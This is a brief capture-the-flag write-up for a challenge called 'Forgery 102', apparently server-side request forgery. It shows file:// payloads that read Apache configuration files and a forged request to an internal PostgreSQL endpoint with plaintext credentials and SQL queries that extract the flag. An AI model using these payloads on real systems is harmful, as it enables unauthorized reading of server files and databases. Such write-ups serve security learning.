 # Forgery 102
Server uses Apache2 so we can check for important files    
https://medium.com/@amey0x/the-most-common-files-for-apache-configurations-23b6b4105f14

And we try this one:   
``file://////etc/apache2/sites-available/000-default.conf``

We get this site/directory:   
``file:////var/www/html/database/index.php``

So then we want to connect to database by using ``localhost:8080`` and passing as arguments
``user=postgres&password=Let%26me%3Din&query=SELECT * FROM information_schema.tables`` 
to get the list of tables and we see that flag db contains flag_82454eeebdae556f451d9a3924 

so we do:
``user=postgres&password=Let%26me%3Din&query=SELECT * from flag.flag_82454eeebdae556f451d9a3924``

``FLAG-Lv06965bgw7t1NVUSIHowXgxOCwzlRn2``
